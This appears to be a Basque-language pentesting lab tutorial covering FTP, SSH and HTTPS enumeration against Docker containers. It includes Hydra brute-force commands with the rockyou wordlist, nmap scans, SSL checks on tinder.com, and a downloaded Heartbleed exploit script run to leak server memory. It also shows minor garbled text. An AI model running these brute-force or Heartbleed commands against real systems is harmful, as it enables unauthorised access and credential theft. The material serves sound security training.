


- [FTP ennumerazioa](#ftp-ennumerazioa)
  - [Docker Pasahitza duen ftp zerbitzaria ( hacking lab docker-composen jada gehituta)](#docker-pasahitza-duen-ftp-zerbitzaria--hacking-lab-docker-composen-jada-gehituta)
  - [Docker Pasahitzik gabeko ftp zerbitzaria](#docker-pasahitzik-gabeko-ftp-zerbitzaria)
  - [Pasahitza duen FTP zerbitzaria eraso](#pasahitza-duen-ftp-zerbitzaria-eraso)
    - [Rock you pasahitz dikzionarioa deskargatu](#rock-you-pasahitz-dikzionarioa-deskargatu)
    - [FTP zerbitzua aurkitu nmap-ekin](#ftp-zerbitzua-aurkitu-nmap-ekin)
    - [Erasoa Hydra erabiliz](#erasoa-hydra-erabiliz)
  - [Pasahitzik gabeko FTP zerbitzaria eraso](#pasahitzik-gabeko-ftp-zerbitzaria-eraso)
- [SSH Enumerazioa](#ssh-enumerazioa)
  - [SSH zerbitzura konektatu](#ssh-zerbitzura-konektatu)
  - [Erasoa Hydra erabiliz](#erasoa-hydra-erabiliz-1)
  - [Sistema eragilearen bertsioa ezagutu ssh protokoloaren bertsiotik](#sistema-eragilearen-bertsioa-ezagutu-ssh-protokoloaren-bertsiotik)
- [HTTP eta HTTPS enumerazioa](#http-eta-https-enumerazioa)
  - [Tinder aztertu](#tinder-aztertu)
  - [Hearbleed ssl kalteberatasuna aztertzen](#hearbleed-ssl-kalteberatasuna-aztertzen)
    - [nmap-ekin aztertu heartbleed duenik](#nmap-ekin-aztertu-heartbleed-duenik)
  - [Python](#python)


# FTP ennumerazioa

Mota honetan, fitxategiak transferitzeko protokoloari (FTP) buruz hitz egingo dugu, eta horri buruzko azterketa nola aplikatu informazioa biltzeko.

FTP protokolo asko erabiltzen da fitxategiak sareetara transferitzeko. FTP zerbitzuaren zerrendatzeak informazio garrantzitsua biltzea dakar, hala nola FTP zerbitzariaren bertsioa, fitxategien baimenen konfigurazioa, erabiltzaileak eta pasahitzak (indar gordineko erasoen edo guessing-en bidez), besteak beste.

Jarraian, gela honetan ukitzen dugun lehen proiekturako esteka duzue:

## Docker Pasahitza duen ftp zerbitzaria ( hacking lab docker-composen jada gehituta)

Docker-FTP-Server: https://github.com/garethflowers/docker-ftp-server

Deskargatzen dugun lehen proiekturako erabiltzen dugun tresnetako bat "Hydra" da. Hydra kode irekiko sartze-probak egiteko tresna bat da, eta pasahitzak babestutako sistemen eta zerbitzuen aurka indar gordineko erasoak egiteko erabiltzen da. Tresna oso pertsonalizagarria da eta sareko protokolo-sorta zabala onartzen du, besteak beste, HTTP, FTP, SSH, Telnet eta SMTP.

FTPrako erabiltzaile gonbidatuak autentifikatzea ahalbidetzen duen edukiontzia hedatzeko erabiltzen ditugun proiektuen artean hurrengoa "metabrainz" en "docker-anon-ftp" proiektua da. Jarraian, proiekturako esteka duzue:

## Docker Pasahitzik gabeko ftp zerbitzaria

Docker-ANON-FTP: https://github.com/metabrainz/docker-anon-ftp

```bash 
docker run -d -p 20-21:20-21 -p 65500-65515:65500-65515 -v /tmp:/var/ftp:ro --network=hacking-lab_pentesting-lab-network metabrainz/docker-anon-ftp 
```

## Pasahitza duen FTP zerbitzaria eraso

###  Rock you pasahitz dikzionarioa deskargatu 


https://github.com/zacheller/rockyou

```bash
cd
git clone https://github.com/zacheller/rockyou
cd rockyou
mkdir /usr/share/wordlists
tar xC /usr/share/wordlists -f rockyou.txt.tar.gz
```

### FTP zerbitzua aurkitu nmap-ekin

Erabili localhost edo sarea + maskara hurrengo aginduan

```bash
nmap -sCV -p20,21 127.18.0.0\16
```

Honelako erantzunen bat agertu beharko litzateke:
```bash
Nmap scan report for my-ftp-server.hacking-lab_pentesting-lab-network (172.18.0.6)
Host is up (0.000036s latency).

PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 2.0.8 or later
MAC Address: 02:42:AC:12:00:06 (Unknown)
```


### Erasoa Hydra erabiliz

```bash
hydra -l sinfor -P rockyou.txt ftp://172.18.0.6 -t 15
```

Mayuskula bada dikzionario bat erabiliko du, minuskula bada, parametro hori erabiltzaile/pasahitz gisa erabiliko da.

- -l erabiltzailea dakigu
- -L erabiltzailea dikzionario batetik hartuko du
- -P pasahitz dikzionarioa erabiliz
- -t 15 : 15 thread aldi berean

Honelako erantzun bat agertu beharko litzateke:

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-30 12:49:37
[DATA] max 15 tasks per 1 server, overall 15 tasks, 200 login tries (l:1/p:200), ~14 tries per task
[DATA] attacking ftp://172.18.0.6:21/
[21][ftp] host: 172.18.0.6   login: user   password: louise
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-30 12:50:06
```

## Pasahitzik gabeko FTP zerbitzaria eraso

Kasu honetan erabil froga dezakegu zuzenenan Anonymus erabiltzailerarekin edo nmapek eskuragarri duen `ftp-anon` scriptarekin

```bash
nmap --script ftp-anon -p21 172.18.0.2
```

Honelako erantzun bat itzuli beharko luke:

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-30 13:02 UTC
Nmap scan report for f0304f75721e.hacking-lab_pentesting-lab-network (172.18.0.2)
Host is up (0.000037s latency).

PORT   STATE SERVICE
21/tcp open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
MAC Address: 02:42:AC:12:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
```

# SSH Enumerazioa

Gela honetan, SSH (Secure Shell) protokoloa arakatuko dugu, baita zerbitzu hori gauzatzen duten sistemei buruzko informazioa biltzeko azterketa nola egin ere.

SSH urruneko administrazio-protokolo bat da, erabiltzaileei urrutiko zerbitzariak Internet bidez kontrolatzeko eta aldatzeko aukera ematen diena, autentifikazio-mekanismo seguru baten bidez. Telnet protokoloaren alternatiba seguruago gisa, zifratu gabeko informazioa transmititzen baitu, SSHk teknika kriptografikoak erabiltzen ditu urruneko zerbitzarirako eta zerbitzarirako komunikazio guztiak zifratuta daudela bermatzeko.

SSHk mekanismo bat eskaintzen du urruneko erabiltzaile bat autentifikatzeko, bezerotik hostera sarrerak transferitzeko eta bezeroari itzultzeko irteera emateko. Hau bereziki erabilgarria da urruneko sistemak modu seguru eta eraginkorrean administratzeko, bertan fisikoki egon behar izan gabe.

Jarraian, "docker" komando osoa kopiatzen dugun webgunerako esteka zuzena duzue, gure kontenedorea zabaltzeko (jada hacking lab docker composera gehituta dago)

Docker Hub OpenSSH-Server: https://hub.docker.com/r/linuxserver/openssh-server
Nabarmentzekoa da, SSH bertsioaren bidez, sisteman gauzatzen ari den banaketaren kodenam-a ere identifika dezakegula.

Adibidez, SSH zerbitzariaren bertsioa "OpenSSH 8.2p1 Ubuntu 4ubuntu0.5" bada, sistema Ubuntu banaketa bat exekutatzen ari dela zehaztu dezakegu. "4ubuntu0.5" bertsio-zenbakia Ubuntuko banaketa horretan SSH paketearen berrikuspen espezifikoari dagokio. Hortik abiatuta, Ubunturen banaketaren kodenam-a identifika dezakegu, kasu honetan Ubuntu 20.04rako "Fokala" izango litzatekeena.

Bilaketa horiek guztiak domeinu honetan aplikatuko ditugu:

Launchpad: https://launchpad.net/ubuntu

## SSH zerbitzura konektatu

Hurrengo aginduaren bitartez konekta ginateke, adi kontenedorearen izena erabil ahal izateko kali kontenedorearen sare berdinean egon behar dela. Bestela, ip helbidea erabil genezake.

```bash
ssh user@openssh-server -p 2222
```
- user : erabiltzailearen izena
- @openssh-server : serbitzariaren helbidea (izena edo ipea)
- -p 2222 : protokoloa erabiltzen ari den portua (defektuz 22)

##  Erasoa Hydra erabiliz

FTP protokoloarekin bezala, hydra erabiliko dugu rockyou-ko pasahitzak frogatzeko.

```bash
hydra -l sinfor -P /usr/share/wordlists/rockyou.txt ssh://openssh-server -s 2222 -t 15
```
- -l sinfor : erabiltzailea
- -P /usr/share/wordlist/rockyou.txt : pasahitzak (P mayuskula denez, dikzionario bat erabiliko dugu)
- ssh://openssh-server : protokoloa eta zerbitzariaren helbidea (izena edo ipea)
- -s 2222 : Zerbitzariaren ssh portua
- -t 15 : Erasorako erabiliko diren thread kopurua

Honelako erantzun bat agertu beharko litzateke:

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-31 09:06:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 15 tasks per 1 server, overall 15 tasks, 14344398 login tries (l:1/p:14344398), ~956294 tries per task
[DATA] attacking ssh://openssh-server:2222/
[2222][ssh] host: openssh-server   login: sinfor   password: louise
``` 

## Sistema eragilearen bertsioa ezagutu ssh protokoloaren bertsiotik

Nmap erabiliz, eskaneo bat egin dezakegu nmapeko scriptak erabiliz, hurrengo aginduarekin 

```bash
nmap -sCV -p2222 openssh-server
```

Antzerako erantzuna itzuli beharko luke:

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-31 09:15 UTC
Nmap scan report for openssh-server (172.18.0.3)
Host is up (0.00011s latency).
rDNS record for 172.18.0.3: openssh-server.hacking-lab_pentesting-lab-network

PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 9.3 (protocol 2.0)
| ssh-hostkey: 
|   256 08:0f:46:12:4b:40:b1:16:bf:62:54:23:04:54:bf:65 (ECDSA)
|_  256 3f:77:a0:1d:6f:b7:59:ea:f2:a6:7a:a5:2a:75:9b:45 (ED25519)
MAC Address: 02:42:AC:12:00:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds
```

Googelen openssh bertsioa + launchpad bilatuz aurki dezakegu sistema eragilearen bertsioa. [launchpad](https://launchpad.net)

(ez du kasu guztietarako balio, adibidez aurreko kontendorea alpine linux v3.18 erabiltzen du eta launchpaden ez da aurkitzen)

Froga egin dezakezue contenedore berri bat sortuz ssh zerbitzuarekin. Hona hemen dockerfile bat froga egiteko:

```bash
FROM ubuntu:14.04
MAINTAINER Mikel Dalmau aka mdalmau 'mikeldalmauc@gmail.com'

EXPOSE 22

RUN apt update && apt install ssh -y

ENTRYPOINT service ssh start && /bin/bash
```

Dockerfile fitxategiaren karpetan kokatuta sortu irudia eta martxan jarri kontenedorea.

```bash
docker build -t nire_ssh_zerbitzaria .

docker run -d -it -p 22:22 --name nireSSHZerbitzaria nire_ssh_zerbitzaria
```

Frogatu aurreko nmap agundua eta bila googelen launchapad ea vertsioa aurkitzeko gai zaren. 

# HTTP eta HTTPS enumerazioa


HTTP (Hypertext Transfer اl) World Wide Webean datuak transferitzeko erabiltzen den komunikazio-protokoloa da. Testu-edukia, irudiak, bideoak, hiperestekak, etab. transferitzeko erabiltzen da. HTTPrako aurrez zehaztutako portua 80. portua da.

HTTPS (Hypertext Transfer اl Secure) HTTPren bertsio segurua da, eta SSL/TLSk erabiltzen du bezeroaren eta zerbitzariaren arteko komunikazioa zifratzeko. 443 ataka lehenetsita erabiltzen du. HTTPren eta HTTPSren arteko alde nagusia da HTTPSk segurtasun-geruza gehigarri bat erabiltzen duela datuak zifratzeko, eta horrek seguruago egiten dituela transferentziarako.

SSL ziurtagiria ikuskatzeko mota honetan ikusten dugun tresnetako bat "Openssl" da. OpenSSL software libreko eta kode irekiko liburutegia da, eta lineako segurtasun-protokoloak ezartzeko erabiltzen da, hala nola TLS (Transport Layer Security), SSL (Secure Sockets Layer). OpenSSL liburutegiak protokolo horiek inplementatzen ditu aplikazioak sarean modu seguruan eta enkriptatuan komunikatu ahal izateko.

Mota honetan tresna hau erabiltzen ikusten dugun komandoetako bat honako hau da:
```bash
openssl s_client -connect ejemplo o.com: 443
```
Komando honen bidez, web zerbitzari baten SSL ziurtagiria ikuska dezakegu. Komandoa 433. atakan konektatzen da zerbitzariarekin, eta SSL ziurtagiriari buruzko informazio zehatza erakusten du, hala nola ziurtagiriaren baliozkotasuna, iraungitze-data, zifratze-mota, etab.

Era berean, klase honetan ikusten ditugun beste tresna batzuk "sslyze" eta "sslscan" dira. Sslyze SSL segurtasuna aztertzeko tresna bat da, zerbitzari baten SSL konfigurazioa ebaluatzeko erabiltzen dena. Erabilitako zifratzeari, onartutako protokoloei eta SSL ziurtagiriei buruzko informazio zehatza ematen du. SSLScan SSL segurtasuna aztertzeko beste tresna bat da, zerbitzari baten SSL konfigurazioa ebaluatzeko erabiltzen dena. Onartutako SSL/TLS protokoloei, erabilitako zifratzeari eta SSL ziurtagiriei buruzko informazio zehatza ematen du.


## Tinder aztertu

Webgunean SSL zihurtagiria ikusi:




Terminalean zihurtagiria ikusi:

```bash
openssl s_client -connect tinder.com:443
```

Sslyze eta sslscan arteko desberdintasun nagusia da sslyze web-zerbitzari baten SSL/TLS segurtasunaren ebaluazioan zentratzen dela, SSL/TLS protokoloen eta konfigurazioen miaketa sakon baten bidez; sslscan, berriz, zerbitzariak onartutako SSL/TLS protokoloen eta erabilitako zifratuen identifikazioan zentratzen da.

SSL/TLS analisi-tresnek emandako informazioak identifikatzea oso garrantzitsua da, zerbitzari baten konfigurazioan kalteberatasunak detektatzeko eta gure informazio konfidentziala babesteko neurriak hartzeko aukera ematen baitigu.

```bash
sslyze tinder.com
```

```bash
sslscan tinder.com
```

## Hearbleed ssl kalteberatasuna aztertzen

Adibidez, Heartbleed segurtasun-kalteberatasun bat da, OpenSSL liburutegiari eragiten diona eta erasotzaileei zerbitzari zaurgarri baten memorian sartzeko aukera ematen diena. Web zerbitzari bat Heartbleeden kalterako bada eta tresna horien bidez detektatzen badugu, horrek esan nahi du erasotzaile batek informazio konfidentziala eskura dezakeela, hala nola gako pribatuak, erabiltzaile-izenak eta pasahitzak.

Jarraian, Githuben proiekturako esteka ematen da. Bertan, Heartbleed-era kaltebera den laborategia hedatzen dugu: (jada hacking laboratoriora gehituta)

CVE-2014-0160: https://github.com/vulhub/vulhub/tree/master/openssl/CVE-2014-0160

Makina altzatu eta gero, izena/ip + portua erabiliz eskaneatuko dugu.

```bash
sslscan nginx-hearbleed:443
```

Erantzunean ikus beharko genuke bulnerablea dela.

### nmap-ekin aztertu heartbleed duenik

Scripta azterketa hau egiteko eskuragarri egon beharko litzateke.

```bash
locate .nse | grep heartbleed
```

Scripta exekutatu:

```bash
nmap --script ssl-heartbleed -p443 nginx-hearbleed
```


## Python

Aurreko hearbleed makinako reposiotrioan python script bat uzten digute 

Instalatu python:
```bash
apt install python3 python3-venv
```

Deskargatu python scripta repositoriotik:

```bash
wget 'https://github.com/vulhub/vulhub/blob/master/openssl/CVE-2014-0160/ssltest.py?raw=true' -O ssltest.py
```

Exekutatu python script, ssl zihurtagiria ikusteko. Ideia, script hau behin eta berriz exekutatzea da eta informazio leakeageak aurkitzea izango litzateke.

```bash
python3 ssltest.py nginx-heartbleed -p 443
```

- -v "00 00 ... 00" parametroa gehituz, kate hau daukaten lerroak izkutatuko dira.
